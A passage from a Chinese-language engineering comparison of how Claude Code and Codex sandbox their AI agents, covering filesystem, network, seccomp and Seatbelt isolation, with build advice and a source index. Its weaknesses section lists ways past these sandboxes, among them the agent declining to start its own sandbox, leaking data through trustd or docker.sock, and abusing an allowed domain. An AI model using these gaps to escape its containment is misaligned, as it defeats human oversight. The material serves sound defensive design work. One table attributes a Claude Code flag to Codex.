| **Linux 沙箱** | bubblewrap | landlock + bubblewrap |
| **Windows** | ❌ 不支持 | ✅ Windows Sandbox (用户隔离) |
| **seccomp** | BPF filter (阻止 AF_UNIX socket 创建) | BPF filter (更广泛的 syscall 过滤) |
| **网络隔离** | 进程内 HTTP/SOCKS5 代理 (Node.js) | 独立 network-proxy crate (Rust) |
| **域名匹配** | 精确 + 通配符 | `globset::GlobSet` (`*.`, `**.`) |
| **SSRF 防护** | 代理层检查 | `is_non_public_ip()` (RFC 1918 等) |
| **自动保护** | Shell/Git/IDE/Agent 配置文件 | `.git/`, `.codex/` 在 writable root 中 |
| **文件系统模型** | deny-then-allow read + allow-only write | entry-based `(path, access_mode)` |
| **动态扩展** | `convertToSandboxRuntimeConfig()` | `merge_permission_profiles()` + `effective_sandbox_policy()` |
| **违规报告** | macOS: log stream 监控<br/>Linux: strace | 无内建违规报告 |
| **Docker 兼容** | `enableWeakerNestedSandbox` | `ExternalSandbox` 策略 |
| **execve 拦截** | ❌ 无 | ✅ 子进程 execve 审批 |

---

## 5. 实现细节深度拆解

### 5.1 文件系统隔离模型对比

**Claude Code (deny-then-allow / allow-only)**：
```
Read:  默认允许 → denyRead 封锁区域 → allowRead 在封锁区域内恢复
       优先级: allowRead > denyRead

Write: 默认禁止 → allowWrite 显式开放 → denyWrite 在开放区域内再封锁
       优先级: denyWrite > allowWrite

两者优先级故意相反:
  - 读: 可以在 deny 区域内挖出 allow 的洞 (方便)
  - 写: 可以在 allow 区域内挖出 deny 的保护 (安全)
```

**Codex (entry-based)**：
```
entries: [(path, access_mode)]
access_mode: Read | Write | None

解析: resolve_access_with_cwd(target_path)
  1. 找所有 entry.path 是 target_path 祖先路径的 entries
  2. 取最长前缀匹配
  3. 同等长度: None > Write > Read (conflict precedence)
```

### 5.2 网络隔离实现对比

**Claude Code**：
- Linux: `--unshare-net` 移除网络命名空间 → socat Unix socket 桥接 → 代理
- macOS: SBPL `(deny network*)` → 只允许 `(allow network-outbound (remote tcp "localhost:{port}"))`
- 代理: Node.js `http.createServer()` + `socks5-server`

**Codex**：
- 独立 `network-proxy` crate (Rust async)
- `compile_allowlist_globset()` / `compile_denylist_globset()` 编译域名匹配器
- `is_non_public_ip()` 防 SSRF（检查 RFC 1918, CGNAT, TEST-NET 等）
- `NetworkMode::Full` vs `NetworkMode::Limited` (仅允许 GET/HEAD/OPTIONS)

### 5.3 macOS Seatbelt Profile 对比

| SBPL 指令 | Claude Code | Codex |
|-----------|-------------|-------|
| 默认策略 | `(deny default)` | `(deny default)` |
| process-exec | ✅ allow | ✅ allow |
| process-fork | ✅ allow | ✅ allow |
| mach-lookup | 14 个精确服务 | 基础 + 扩展 (preferences, automation, contacts 等) |
| sysctl | 59 条精确白名单 | 类似 (未完整枚举) |
| file-ioctl | `/dev/null`, `/dev/zero`, `/dev/random`, `/dev/urandom`, `/dev/tty` | 类似 |
| network | 仅 localhost proxy 端口 | 取决于策略 |
| **特色功能** | trustd.agent 可选开放 (Go TLS) | AppleScript bundle ID 过滤, Calendar/Contacts/Reminders 权限 |

---

## 6. 安全限制与已知弱点

### Claude Code

| 限制 | 详情 |
|------|------|
| **Linux mandatory deny 仅阻止已存在文件** | bwrap bind-mount 无法阻止创建新文件。macOS glob 可以。 |
| **Unix socket 继承** | seccomp 仅阻止 `socket(AF_UNIX, ...)` 创建，不阻止通过 `SCM_RIGHTS` 传递的已有 fd |
| **32-bit x86 不支持** | seccomp filter 不阻止 `socketcall()` 系统调用（ia32 上 socket 操作通过 socketcall 多路复用） |
| **自我强制** | 沙箱由 Claude Code 进程自身启动，理论上 agent 可以选择不启动沙箱 |
| **allowUnixSockets 危险** | 允许 Unix socket 可能暴露 Docker daemon (`/var/run/docker.sock`) |
| **trustd.agent 数据泄露** | `enableWeakerNetworkIsolation` 通过 trustd 服务可能泄露数据 |
| **域名前置攻击** | 允许 `github.com` 后，进程可 push 到任意 repo。需自定义 MITM 代理 + CA 证书拦截具体 API 调用 |

### Codex

| 限制 | 详情 |
|------|------|
| **Linux 无违规报告** | bwrap 不提供内建的违规日志 |
| **enableWeakerNestedSandbox** | Docker 环境中显著降低安全性 |
| **Windows 沙箱需要管理员权限** | 用户隔离方案依赖 ACL |
| **execve 拦截开销** | ptrace 有性能开销 |

---

## 7. 实现建议

> 如果你要从零构建 Agent 沙箱系统：

| 建议 | 来源 | 优先级 |
|------|------|--------|
| **双重隔离**：文件系统 + 网络同时实施 | 两者均强调 | 🔴 必须 |
| **deny default**：一切默认禁止，显式允许 | Claude Code SBPL | 🔴 必须 |
| **自动保护敏感文件**：`.bashrc`, `.gitconfig`, `.git/hooks/` | Claude Code mandatory deny | 🔴 必须 |
| **网络代理而非规则**：用代理中介流量，不是防火墙规则 | Claude Code 设计 | 🟡 推荐 |
| **seccomp 两阶段**：先启动桥接进程，再加载 BPF filter | Claude Code 设计 | 🟡 推荐 |
| **SSRF 防护**：检查私有 IP 地址 | Codex `is_non_public_ip()` | 🟡 推荐 |
| **策略动态扩展**：允许工具请求额外权限 | Codex `merge_permission_profiles()` | 🟢 进阶 |
| **多平台支持**：macOS Seatbelt + Linux landlock/bwrap | 两者 | 🟢 进阶 |
| **execve 拦截**：审批子进程创建 | Codex | 🟢 进阶 |

---

## 附录：源码位置索引

### Claude Code Bundle (`cli.beautified.js`)

| 功能 | Bundle 函数 | 行号 |
|------|-----------|------|
| 沙箱主入口 | `Wm_()` = `wrapWithSandbox` | L220553 |
| macOS sandbox-exec 封装 | `A$q()` | L220112 |
| Linux bwrap 封装 | `q$q()` | L219904 |
| 沙箱初始化 | `Om_()` | L220361 |
| 读限制配置 | `jm_()` | L220427 |
| 写限制配置 | `Hm_()` | L220454 |
| 网络配置 | `Jm_()` | L220473 |
| 是否启用沙箱 | `wm_()` = `isSandboxingEnabled` | L220402 |
| 沙箱依赖检查 | `D$q()` | L220406 |
| 沙箱违规存储 | `JT6` = `SandboxViolationStore` | L220865 |
| macOS 违规日志监控 | `O$q()` (log stream + Sandbox: 检测) | L220188 |
| seccomp BPF 加载 | `n2q()` | L219930 |
| seccomp apply 二进制 | `zi6()` | L219931 |
| SBPL 完整 profile | (inline string array) | L220112 |

### Claude Code 开源沙箱 (`anthropic-experimental/sandbox-runtime`)

| 文件 | 功能 |
|------|------|
| `src/sandbox/sandbox-manager.ts` | 沙箱生命周期管理 |
| `src/sandbox/linux-sandbox-utils.ts` | Linux bwrap 封装 |
| `src/sandbox/macos-sandbox-utils.ts` | macOS sandbox-exec 封装 |
| `src/sandbox/http-proxy.ts` | HTTP/HTTPS 代理 (域名过滤) |
| `src/sandbox/socks-proxy.ts` | SOCKS5 代理 (域名过滤) |
| `src/sandbox/sandbox-violation-store.ts` | 违规记录 |
| `vendor/seccomp/{x64,arm64}/` | 预编译 BPF filter + apply-seccomp |

### Codex (`codex-rs/`)

| 文件 | 功能 |
|------|------|
| [policy_transforms.rs](file:///Users/zfang/workspace/enter_agent_sdk/codex/codex-rs/sandboxing/src/policy_transforms.rs) | 策略变换与合并 |
| [seatbelt_permissions.rs](file:///Users/zfang/workspace/enter_agent_sdk/codex/codex-rs/sandboxing/src/seatbelt_permissions.rs) | macOS Seatbelt SBPL 扩展生成 |
| [seatbelt_base_policy.sbpl](file:///Users/zfang/workspace/enter_agent_sdk/codex/codex-rs/sandboxing/src/seatbelt_base_policy.sbpl) | Seatbelt 基础 profile 模板 |
| [seatbelt_network_policy.sbpl](file:///Users/zfang/workspace/enter_agent_sdk/codex/codex-rs/sandboxing/src/seatbelt_network_policy.sbpl) | Seatbelt 网络策略模板 |
| [macos_permissions.rs](file:///Users/zfang/workspace/enter_agent_sdk/codex/codex-rs/sandboxing/src/macos_permissions.rs) | macOS 权限合并/交集 |
| [permissions.rs](file:///Users/zfang/workspace/enter_agent_sdk/codex/codex-rs/protocol/src/permissions.rs) | 文件系统沙箱策略核心 |
| [network-proxy/policy.rs](file:///Users/zfang/workspace/enter_agent_sdk/codex/codex-rs/network-proxy/src/policy.rs) | 网络域名策略 + SSRF 防护 |
| [linux-sandbox/](file:///Users/zfang/workspace/enter_agent_sdk/codex/codex-rs/linux-sandbox/) | Linux landlock + bwrap |
| [windows-sandbox-rs/](file:///Users/zfang/workspace/enter_agent_sdk/codex/codex-rs/windows-sandbox-rs/) | Windows 沙箱 |
